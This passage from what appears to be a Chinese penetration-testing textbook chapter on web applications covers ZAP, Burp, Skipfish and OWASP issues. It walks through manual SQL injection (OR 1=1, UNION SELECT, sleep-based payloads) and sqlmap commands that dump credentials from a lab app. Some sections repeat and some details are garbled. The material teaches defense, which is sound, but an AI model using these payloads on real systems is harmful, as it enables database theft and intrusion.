

图 12.20：书中的 Web 应用 (2)

> 注意：黑客攻击需要查看技术的“内部原理”以理解其工作方式。这种使用拦截代理的过程是安全团队调查调查现代 Web 应用的常用方法。这些工具也能让开发者调试其应用程序大有裨益。

你还应该尝试使用网站上找到的任何表单，输入不同的用户名、密码、特殊字符等的组合。我们可以拦截这些表单提交请求和响应，以帮助构建关于网站如何运行的更清晰的。

# 爬虫化 (Spidering)

我们在第 7 章中首次提到过*爬虫化*（与*网络爬虫*同义），是与搜索引擎映射网页内容有关。你也可以利用爬虫技术来尝试寻找隐藏的内容或你在手动浏览时错过的站点部分。在使用 Web 爬虫——或任何自动化工具时应保持谨慎——其使用可能会对 Web 应用造成重大损害，特别是当配合凭据使用时。希望你的客户提供了生产环境的克隆版本供测试（测试环境或预生产环境），而不是真实的上线站点。无论如何，你应该始终保持谨慎，以免给你或你的客户带来不便。`Burp Suite` 的免费版曾包含一个 Spider 工具，但现在不再如此了。幸运的是，`OWASP Zed Attack Proxy (ZAP)` (www.zapproxy.org) 包含一个。你可以在图 12.21 中看到 ZAP 的主界面。



图 12.21：ZAP 的主界面

我们建议针对我们的邮件和书籍实验室尝试 ZAP 的其他功能，例如自动化扫描工具。但现在，请通过进入屏幕顶部的 `Tools` 菜单并在下拉菜单中选择 `Spider` 来选择爬虫工具。你也可以使用键盘快捷键 `Ctrl+Alt+S`。


会弹出一个 Spider 对话框（见图 12.22），允许你指定 Starting Point（起始点）。你可以以 `http://<Target>` 的形式将其输入框中。你不需要选择 Context（上下文）或 User（用户）。通过使用这些选项，Spider 将作为 Web 应用的非身份用户跟踪链接。你可以选择 Spider Subtree Only（仅爬虫子树）选项以防止 Spider 跟踪外部链接。所有其他选项都可以保持不变。点击 Start Scan（开始扫描）按钮，观察 ZAP 向目标发送请求。



图 12.22：ZAP 对话框

你还应该尝试使用网站上找到的任何表单，输入不同的用户名、密码、特殊字符等的组合。我们可以拦截这些表单提交请求和响应，以帮助构建关于网站如何运行的更清晰的。

Web 应用的自动化扫描（通常称为主动扫描）允许你快速覆盖大量区域并发现明显的缺陷，但它们不是手动测试的替代品，也不会教你它们发现漏洞的方法。



图 12.23：ZAP 正在发送请求

# 第 12 章 Web 应用程序



图 12.24：ZAP 的告警标签

## Burp Suite Professional

Burp Suite 的商业版 Burp Suite Professional 包含了被动和主动扫描器形式的自动化扫描。这些工具是你正在使用的手动测试和其他自动化工具的极佳补充。被动扫描器将使用你生成的 Web 请求而不对其进行修改，以检测漏洞；而主动扫描器将发送数千个潜在的自定义请求来尝试识别缺陷。你可以仔细控制这些请求的性质，只测试应用程序的某些部分，并控制速率不会让底层 Web 服务器过载。

如果你将测试很多 Web，并且已经学会了如何手动发现和利用常见的 Web 应用程序漏洞和缺陷，我们建议使用 Burp Suite Professional。Burp Suite Professional 的主动扫描器（实际上任何自动化 Web 扫描器）几乎都会产生大量的误报。此类工具发现的每个问题仍然需要手动验证，而且你经常会发现并没有问题。例如，“发现信用卡号”这类问题。当你第一次看到它时，你会疯狂地搓手，并为如此快速地发现了一个关键问题而感到自豪。也许你很有天赋？然而，请再看。主动扫描器会将任何网页上发现的任何模糊类似于信用卡号的数字字符串标记为潜在缺陷。这只是一个例子。事实上，Burp Professional 甚至包含一个简单的功能，可以将问题标记为误报，以帮助保持结果整洁。

## Skipfish

Skipfish (code.google.com/archive/p/skipfish) 是 Google 发布的一种 Web 应用程序主动扫描工具。该工具由 Michael Zalewski 开发，他在安全领域工作具有开创性，开发了大规模发现漏洞的自动化方法。Skipfish 是一个极具洞察力的漏洞扫描器，可以执行表单投毒和多种攻击来识别 OWASP Top 10 以及许多其他漏洞。对于习惯使用各种工具的命令行用户来说，这是一个非常推荐的开源替代方案。输出报告以易于理解的 HTML 格式生成。虽然在配合 Mitmproxy 使用时，它是 Burp Suite 的极佳替代方案，但因为它是一个更高级、需要配置和调整才能有效使用的工具，我们只在你熟练使用上述工具时才建议使用它。

## 发现漏洞

在测试 Web 应用程序时，你应该结合手动检查和自动化扫描（使用扫描器）来建立一个潜在漏洞列表。某些扫描器会识别并确认漏洞，但理解如何手动测试和确认最重要的漏洞（从如果暴露的潜在危险性以及它们在现实世界中的常见程度来看）至关重要。

最后，我们现在检查 OWASP Top 10 中出现的漏洞，并解释大部分漏洞如何手动识别和确认。当我们谈论确认漏洞时，我们的意思是它们需要被利用或证明其存在，并捕获这些证据并提供在你的最终报告中。

测试应用程序的一种基本方法是依次处理 OWASP Top 10 中的每个问题，并对每个问题识别出的入口点进行测试；尽管正如你所看到的，并不是每个漏洞都能通过这种方式检查。你一定会尝试书中实验室 Web 应用程序中的以下漏洞。

## 注入

注入出现在 OWASP Top 10 的首位（已经占据首位多年），并不是因为它比所有其他漏洞都常见，而是因为其频率、易利用性以及此类攻击潜在损害的共同作用。

你已经看到操作系统 (OS) 命令注入如何允许你在主机上获取 shell，而这正是在评估 Web 应用程序时你应该尝试的。有时你能够实现命令注入，但更有可能实现的是 SMTP、XML、X-PATH 或 SQL 注入。SQL 注入允许攻击者通过上一章描述的方法窃取整个数据库，并获取底层操作系统的访问。任何组织可以增加其面向公众的 Web 应用程序安全性的首要任务就是针对注入攻击进行加固。

有许多形式的注入影响着所有类型的应用程序和后端存储——你已经在书中看到了很多注入攻击——例如 OS 注入、命令注入和 LDAP 注入。所有这些都属于同一类漏洞。许多注入漏洞无论系统或应用程序如何（它可以是桌面版邮件客户端、Web 应用程序或手机应用程序），都源于缺乏输入验证，通常是服务器端的输入验证。记住，如果不进行服务器端验证，那么改进客户端验证永远不是一种安全控制。一个你可能认为在向客户提交的最终报告中有必要引用的有用资源是 OWASP 应用程序安全验证标准 (ASVS)，可以在 `owasp.org/www-project-application-security-verification-standard` 找到。

## SQL 注入

当涉及到 Web 应用程序时，一种引起无数新闻头条且仍然存在风险的特定注入形式是 SQL 注入。大多数自动化工具在检测这种高热度漏洞方面表现良好，但我们现在向你展示如何手动发现和利用此类缺陷。在手动浏览和探索书籍实验室 Web 应用程序期间，也许你发现了“pony app”，它只不过是一个图像库。也许你注意到了该页面 URL 中的参数？这个由我们实验室托管的 Web 应用程序是一种相册，你可以点击不同的链接查看图像和文本（见图 12.25）。注意此页面的地址以及当你点击链接时它的变化。它看起来像这样：`http://TargetIP/ponyapp/id=2&image=dashie.png`。假设这些图像和文本存储在数据库中——选择每个图像标题的 SQL 查询可能像什么样？你可以通过查看参数获得思路。这里有一个 `id` 参数和一个 `image` 参数。你可以在这里使用参数篡改进行一些基本检查，但首先看当你点击页面上的任意一个链接时会发生什么。点击 3 链接会将 `id` 变为 3，`image` 为 `pinkiepie.png`。而不是点击链接，尝试在你的浏览器中手动更改该 `id` 参数。如果你将其改为 2，文本变成了 Rainbow dash，但图像保持不变。更改 `id` 参数只会改变显示的标题。`image` 参数可能是文件名。`id` 参数可能是存储图像标题表中的主键。将 `id` 改为 4 导致没有显示消息，所以也许底层表中只有三条记录。



图 12.25：Derpy 图片查看器

为了检查 注入的可能性，在有效的 `id` 参数后加上一个单引号 (`'`)——例如 `1`——这样 URL 看起来如下（你的目标 IP 地址可能为）：

```
http://192.168.56.104/ponyapp?id=1'&image=derpy.png
```

如果这里有异常 SQL 语句，这就会改变它并导致错误。有时这会导致 HTTP 500 错误消息，你可以看到有关问题的详细信息。这些信息不应该对公众成员或潜在攻击者可见。在这种特殊情况下，没有显示错误消息，但应用程序停止工作了

如所示。注意，当输入像 `i'` 这样的有效字符时，不会显示任何说明。这是 SQL 注入漏洞的常见迹。接下来应该尝试在输入中再添加一个单引号。如果应用程序再次正常工作，那么这就是另一个常见迹：

```
http://192.168.56.104/ponyapp/?id=1&image=derpy.png
```

然而，在这个 Web 应用程序中，第二个单引号并没有让应用程序恢复正常状态。尽管如此，我们假设这里存在漏洞并尝试修改底层查询。你应该尝试的是 `id=1 OR 1=1`，这是完全有效的 SQL 语句。由于 1 始终等于 1，该语句将被解释为 `id=1 True`。这意味着查询将返回 `id` 等于 `1` 的结果，但无论 `id` 如何都会返回记录（前提是查询可以被修改）。要尝试这一点，你的 URL 应该如下所示。在浏览器地址栏中输入时，空格应该是可以工作的。如果没有，请使用加号 (`+`) 代替空格或 `%20`（URL 编码的空格）：

```
http://192.168.56.104/ponyapp/?id=1 OR 1=1&image=derpy.png
```

你将看到如屏幕所示返回了三个说明。你已经能够修改底层的 SQL 查询，这证实了 SQL 注入漏洞。

| Derpy says hi |
| --- |
| Rainbow dash! |
| Computers are awesome |

假设该网站开发者指定的底层 SQL 查询如下：

```
SELECT DESCRIPTION FROM PONIES WHERE id = <id>
```

通过使用 `id=1 OR 1=1`（它将被求值为真），那么要执行的修改后的查询如下：

```
SELECT DESCRIPTION FROM PONIES WHERE id = TRUE
```

这会发生什么？它将返回表中所有 `id` 有值的行，而不仅仅是一个简单的查询。

事实上，在 URL 中将 `1=1` 替换为 `true` 或直接用 `1` 也能起作用，但情况并不总是如此。尝试这两个 URL，你应该会得到相同的结果：

```
http://192.168.56.104/ponyapp/?id=1 OR 1=1&image=derpy.png
http://192.168.56.104/ponyapp/?id=1 OR true&image=derpy.png
```

此时，你可以安全地假设存在一个包含三条记录的表，其中一列是包含这些字符串的说明或注释列。该表可能如下所示（我们目前仍在推测），但我们现在有了更多信息：

| ID | DESCRIPTION |
| --- | --- |
| 1 | Derpy says hi |
| 2 | Rainbow dash! |
| 3 | Computers are awesome |

这是一种非盲注 SQL 注入流程。你能够注入 SQL 并看到 Web 应用程序输出的可见变化，即网站行为的变化。通常，它可能比这更微妙，你不会在可见输出中看到任何变化，这被称为盲注 SQL 注入。还有其他检测此类类型漏洞的方法，我们稍后会讨论。

你知道你可以修改现有的 SQL 查询，但可以在此基础上堆叠进一步的查询吗？尝试以下代码段，它尝试用分号 (`;`) 终止原始查询，并在之后启动一个新查询，这是完全有效的 SQL 语法：

```
http://192.168.56.104/ponyapp/?id=1;select @version&image=foo
```

初始的预期查询被分号 (`;`) 终止，并添加了一个新查询：`select @version`。记住 `@version` 是一个有效的内置函数。分号终止了行，然后你添加了一个新查询。然而，在这种情况下，堆叠查询似乎在这个应用程序中不起作用，因为数据库没有返回任何版本信息。

接下来尝试使用 `UNION` 关键字，当你想要同时输出多个表的内容，以及由于它们属于一个表的行和列时，会用到它。（你可能认为 `JOIN` 是描述此点的更好关键字，但 SQL 中的 `JOIN` 是完全另一回事——用于根据表之间的关系连接表）

为了使 `UNION` 查询生效，要在 `union` 中输出的查询需要具有相同数量的列。在这种情况下，原始查询只返回一列——据我们所知，是一个描述列。无论我们使用 `union` 向原始查询添加什么内容，都应该输出一列。`@@version` 函数也返回一列（和一行），因此这是一个很好的开始。尝试以下操作：

```
http://192.168.56.104/ponyapp/?id=1 UNION SELECT @VERSION&image=derpy.png
```

此时你应该看到输出了版本信息：

| Derpy says hi |
| --- |
| 5.1.73-1 |

该查询之所以有效，是因为原始查询和 `@@VERSION` 函数都返回单列。你可以向查询中添加额外的空列。如果你想找到列的数量，可以使用如下的 `NULL`：

```
http://192.168.56.104/ponyapp/?id=1 UNION SELECT NULL,NULL,NULL&image=derpy.png
http://192.168.56.104/ponyapp/?id=1 UNION SELECT NULL,NULL,NULL&image=derpy.png
```

一旦你知道了列的数量，就可以确定哪些列包含数据。尝试以下操作：

```
http://192.168.56.104/ponyapp/?id=1 UNION SELECT 'a',NULL,NULL&image=derpy.png
```

如果应用程序在第一列返回 `'a'`，那么第一列就包含了数据。对每一列重复此操作，直到找到哪些列包含数据。一旦知道了列，就可以提取数据库中的表名：

```
http://192.168.56.104/ponyapp/?id=1 UNION table_name FROM information_schema.tables&image=derpy.png
```

# SQLMAP

Sqlmap 曾用于利用 2015 年 10 月英国 ISP TalkTalk 所属 Web应用程序中发现的 SQL 漏洞。次年 9 月，19 岁的 Daniel Kelley 被控实施了该攻击并试图向该公司勒索，要求其支付 46 个比特币（当时价值约 21.6 万英镑或 268,465.32 英镑）。在攻击发生的一周内，该漏洞导致公司市值缩水约 2.4 亿英镑或 2.98 亿美元。TalkTalk 还被信息专员办公室（一个维护团体和个人数据保护权的英国机构）发现。据信，Kelley 获取了超过 150,000 名 TalkTalk 客户的个人数据，其中包含一些敏感财务数据。

Sqlmap 是一种自动利用注入漏洞并通过注入如所示的查询（查询 `information_schema` 并系统地查询所有表）来映射整个数据库的工具。你可以通过 `sqlmap -h` 查看该工具的基本帮助和信息。

Sqlmap 将尝试发现不同类型的 SQL 注入漏洞。我们在上一节中看了一个简单的案例，即非盲注 SQL 注入。在其他情况下，Web 应用程序或服务器不会显示与 SQL 注入相关的错误信息，但注入结果在页面上清晰可见。如果结果不可见或未返回，则这就是盲注 SQL 注入漏洞。幸运的是，在这种情况下很容易确认 SQL 注入，因为应用程序的输出发生了明显变化。

然而，想象一下屏幕上什么输出都没有。那么就必须使用不同的方法，通过利用时间差来获取优势。如果你怀疑存在 SQL 注入漏洞，可以尝试注入 `PAUSE` 或 `DELAY` 命令或函数。这将导致 SQL 查询停止执行，直到页面满足要求，你会注意到服务器返回的响应存在延迟。设置一个较大的延迟（例如 30 秒）会使加载变长。然而，这可能会导致扫描工具在测量页面扫描盲注 SQL 攻击的时间时产生误报。

这里是另一个机会加载 Wireshark，这样你可以看到 SQLmap 和 Web 服务器之间通信的原始数据包。为了让 Sqlmap 正确运行，你应该为它提供一个未被篡改的 URL（确保将其用双引号括起来）：

```
sqlmap -u "http://192.168.56.101/ponyapp?id=1&image=derpy.png"
```

SQLMap 默认是详细模式（可以通过 `-v` 选项变得更详细）。当你使用之前的命令时会看到一些输出，它看起来像这样：

```
H
--]
--{1.3.4#stable}
--|--|-
--[]]
--[..],_,|_
|V... http://sqlmap.org Usage of attacking targets without
```

[!] 法律免责声明：未经许可使用 sqlmap 是非法的。用户有责任遵守所有相关的当地、州和联邦法律。开发者不承担任何责任，且对本程序造成的任何误用或损坏不负责。

[* starting @ 10:30:48 /2019-09-11-

[13:40:48] INFO testing connection to the target URL

[13:40:48] INFO heuristics detected web page charset 'ascii'

[13:40:48] INFO testing if the target URL content is stable

[13:40:49] INFO target URL content parameter 'id' is dynamic

[13:40:49] WARNING GET parameter 'id' does not appear to be dynamic

[13:40:49] WARNING heuristic (basic) test shows that GET parameter 'id' might be injectable

[13:40:50] INFO testing for SQL injection on GET parameter 'id'


# SQLMap 详细输出分析

[13:40:50] INFO testing 'AND boolean-based blind - WHERE OR HAVING clause'
[13:40:50] INFO GET parameter 'id' appears to be 'AND boolean-based blind (with --string="injectable (with-Derpy says hi")

Sqlmap 在此处执行了一些检查，如果 `id` 参数似乎可以被 'AND boolean-based blind - WHERE OR HAVING clause' 注入（使用 `--string="Derpy says hi"`），这与之前使用的方法不同。如果你使用 `-v` 选项将 SQLMap 的详细程度提高到级别 3，你将看到如下内容：

```
[13:47:55] [PAYLOAD] 1 AND 3169=3169
[13:47:55] [PAYLOAD] 1 AND 4757=5610
```

SQLMap 没有像你之前那样使用 `OR`，而是使用了 `AND` 操作符。如果数字匹配，底层查询应正常执行。如果不匹配，查询将输出其字符串。这两种类型都是基于布尔，因为它们依赖于逻辑操作的评估，并产生真和假值。你会注意到 SQLMap 通过输出的最后一行来转义你的请求：它看起来后端是 'MYSQL'。你是否想跳过其他 DBMS 的有效负载？

由于你已经执行了检查，你怀疑选择的级别是 `MySQL VERSION` 函数并可以进入此处。你可能会收到以下消息：对于剩余测试，你是否想包含针对 'MySQL' 级别 (1) 和风险的所有测试？选择 `n` 将防止 SqlMap 执行高于所选级别的测试，这可以通过 `--level` 和 `--risk` 选项设置——例如 `--level=2 --risk=2`。你会发现回答 `n` 仍然能识别出你之前发现的漏洞。很快你就会看到与你看到的对应的输出——原始查询有一个单列，且 `id` 参数可以通过 `UNION` 查询注入。

另一个提示将询问你是否想测试你提供的 URL 中的其他参数。你可以回答 `n`：

[14:07:28] INFO target URL appears to have 1 column in query

[14:07:28] INFO GET parameter 'id' is 'Generic UNION query (NULL) - 1 columns' injectable GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any?)

最后，你将看到类似的内容：

```
sqlmap identified the following injection(s) with a total of 41 HTTP(S) requests:

---
Parameter: id (GET)
Type: boolean-based bind
Title: AND boolean-based bind WHERE HAVING clause
Payload: id=1 AND 9911&image=derpy.py

Type: time-based bind
Title: MySQL >= 5.0.12 AND time-based bind
Payload: id=1 SLEEP(5)&image=derpy.py
```

```
Type: UNION query
Title: Generic UNION query (NULL) - 1 column
Payload: id=1 UNION ALL SELECT CONCAT(0x71a6706271,0x665075856a794b6c5896b42853a6427a624b8a4571e637751a4bd6b54766f6247a,0x171070&a7--&image=derpy.png
```

```
[14:07:34] INFO the back-end DBMS is MySQL
web operating system: Linux
web application technology: Apache 2.2.21, PHP 5.3.8
back-end DBMS: MySQL >> 5.0.12
[14:07:34] INFO fetched data logged to text files under '/home/sqlmap/output/192.168.56.104'
```

在这里你可以看到 `id` 参数通过三种不同的技术被发现可注入：布尔盲注、时间注和 UNION。你已经看过了布尔注和 UNION 查询，但请看用于时间注入的负载，它通常用于盲注：

如果你手动将此插入浏览器地址栏中正在检查的 URL 中，你应该注意到服务器响应有五秒的延迟。这就是为什么当应用程序输出不受影响时使用标记——通过引入人工延迟，我们可以监控应用程序的行为来判断 SQL 语句是否执行。为了明确，URL 将是：

```
http://<TargetIP>/ponyapp?id=1 AND sleep(5)&image=derpy.png
```

> **TIP** 提高 SQLmap 的级别并手动查看工具使用的各种技术（你将在终端中看到它们）是学习不同负载以及手动检测和验证 SQL 漏洞的好方法。

# Sqlmap 核心功能：数据库枚举

Sqlmap 的核心功能是数据库枚举。你可以使用多个不同的选项来提取目标数据库的不同部分，例如使用 `--passwords` 提取 RDBMS 的用户名和密码（包括 MySQL root 用户），使用 `--current-user` 查看以哪个 RDBMS 用户运行（Web 应用程序绝不应访问后端数据库（作为 RDBMS 的根用户）），或使用 `--tables` 列出系统上运行的所有数据库中的所有表。使用 `-a` 获取绝对所有，但请谨慎使用该选项——它会消耗大量时间并在日志文件中产生大量冗余信息！将该选项添加到你之前使用的命令末尾：

```
sqlmap -u "http://<Target>/ponyapp/?id=1&image=derpy.png" --passwords
```

SQLmap 内置了密码哈希破解功能，如果你有需要，可以使用该功能。或者，在收到提示时保存一个文件以备后用。

> **提示** 未来常用的一个命令是 `rm -rf ~/.sqlmap/`，这将清除当前用户主目录下 `.sqlmap` 文件夹的内容。这是 SQLmap 存储扫描结果和会话数据的地方。在完成工作之前你可能需要清理这些内容，以防止存储不必要的数据。

你可以使用以下命令导出特定数据库中表的内容。在这里，将显示 pony 数据库表的内容：

```
sqlmap -u "http://192.168.56.104/ponyapp/?id=1&image=derpy.png" --dump-pony
```

如果你运行此命令，你应该看到输出两个表（以及一些非正式的消息），显示如下：

| id | username | password |
|---|---|---|
| 1 | pinkiepie | cupcakes |
| 2 | rainbowash | bestpony |
| 3 | applejack | yeehaw |
| 4 | derpy | afdsfs |

| id | image | description |
|---|---|---|
| 1 | derpy.png | Derpy says hi |
| 2 | dashie.png | Rainbow dash! |
| 3 | pinkiepie.png | Computers are awesome |

现在想象这是你客户的自定义 Web 应用程序，敏感客户数据存储在 MySQL 或数据库中。一旦发现 SQL 注入漏洞，复制数据库中存储的任何敏感数据相对容易。

# 第 12 章 ■ Web 应用程序

在尚未验证 SQL 注入漏洞的情况下，可以使用 SQLMap。你可以向它提供看起来很有希望或可能被注入的 URL。然而，SQLMap 绝非低调——它会发送大量请求且不会产生错误。通常情况下，它的检测成功率比手动验证高，但不应将其作为检测 SQL 注入攻击的唯一手段。通常的做法是先进行手动检查，然后在手动验证了潜在攻击路径后，再为 SQLmap 提供关于应该测试内容的参数。

# Druageddon

Druageddon，正式编号为 CVE-2014-3704，是一种 SQL 漏洞，影响的不仅是一个 Web 应用程序，而是几乎所有在特定版本范围内使用 Drupal CMS 的应用程序。这与你见过的严重的 SQL 注入漏洞不同，而是另一种不同的漏洞。该漏洞允许绕过 Drupal 的内置身份验证，并允许执行代码。后来还有其他重大的 Drupal 漏洞（近年来发现了许多 Drupal 漏洞），例如 CVE-2018-7600（被称为 Druageddon）和 CVE-2018-7602：Drupalged 3（现在名字不再包含数字 1），尽管后者的漏洞不是 SQL 漏洞。Druageddon 允许远程代码执行，并被广泛用于分发加密货币挖掘软件——这种软件在受害者不知情的情况下在其计算机上运行，为攻击者挖掘加密货币！Metasploit 中可以找到针对 CVE-2014-3704 的模块，并且可以用于我们的书籍实验。该利用程序利用 SQL 注入攻击来在受漏洞的 Drupal 配置中获取管理员权限，然后利用 Drupal 的功能在命令行 shell 中上传 PHP 代码来进一步改进攻击。

# 防止 SQL 注入

预处理语句（Prepared statements），也称为参数化查询，是防止 SQL 注入的关键防御。你很难找到一个至少不知道 SQL 注入的 Web 开发者，但注入问题出现的频率比你想象的要高。有时，转义输入被用作防止 SQL 注入的方法，这不是一种可靠的防御，不应向你的客户推荐其替代预处理语句或参数化查询。问题的部分源于人们使用第三方库时，简单地假设代码编写是正确或已受保护。

# 预处理语句

预处理语句，也称为参数化查询，是防止 SQL 注入的关键防御。你很难找到一个至少不知道 SQL 注入的 Web 开发者，但注入问题出现的频率比你想象的要高。有时，转义输入被用作防止 SQL 注入的方法，但这不是一种可靠的防御，不应向你的客户推荐其替代预处理语句或参数化查询。问题的部分源于人们使用第三方库时，简单地假设代码编写是正确或已受保护。

预处理语句就像查询的模板。你先定义 SQL 代码，然后将参数传递给它。这防止了数据库将参数解释为代码。例如：

```
INSERT INTO products (name, price) VALUES (?, ?);
```

当你使用预处理语句时，数据库引擎在数据发送之前就会编译查询结构。当稍后绑定参数时，数据库将它们严格视为数据而非可执行代码。这就是为什么它们对 SQL 注入如此有效的原因。

然而，预处理语句并非万灵药。例如，它们不能用于查询中变化的部分，如表名或列名。如果这些内容需要是动态的，你必须使用白名单来确保输入是安全的。

# 身份认证失效

身份认证失效是一类漏洞，攻击者可以通过这些漏洞破解密码、会话令牌或会话 ID 来冒充用户身份。这种情况有许多方法：

- 弱密码
- 不安全的会话管理
- 缺乏多因素身份验证
- 糟糕的密码恢复

例如，如果应用程序允许无限次登录尝试，攻击者可以使用暴力攻击猜测密码。如果会话 ID 是可预测的，攻击者可以猜出一个有效的会话 ID 并劫持用户的会话。

许多 Web 应用程序在身份验证消息上“话太多”。如果应用程序显示“用户名错误”或“密码错误”消息，你可以利用这一点作为优势，检查特定的用户名和密码组合。应用程序更好的响应应该是“你输入的信息错误”，这意味着即使你猜对了一个拼图碎片，也不知道对不对。

> **注意** 学习不仅是身份验证漏洞，而且任何类型应用程序的通用弱点的良好资源，是常见弱点枚举（Common Weakness Enumeration，简称 CWE）资源。这是一个位于 cwe.mit.org 上的由社区开发的软件弱点列表。这些常见弱点被赋予编号，例如 CWE-384（即会话固定漏洞），这与 CVE 系统类似。与 CVE 不同，CWE 并不详细说明已知的漏洞，而是识别特定漏洞通常可以归分类的弱点类型或类别。

## 敏感数据泄露

大多数 Web 应用程序处理某种形式的敏感数据，例如电子邮件地址、密码、姓名和物理地址。信息应始终通过加密通道——换言之 HTTPS——传输，并以符合数据要求的方式存储。这意味着对敏感数据进行加密或对密码进行哈希处理。（密码不应使用可逆的加密方式。）

在我们之前之前演示的 SQL 注入示例中，可以从 `pony` 表显示用户名和密码。这些密码是以明文形式存储和显示的。虽然 SQL 注入漏洞是另一个独立的问题，但一旦修复了 SQL 漏洞，可能仍有其他方法可以访问这些密码。现在处理它可以防止攻击者未来的利用。

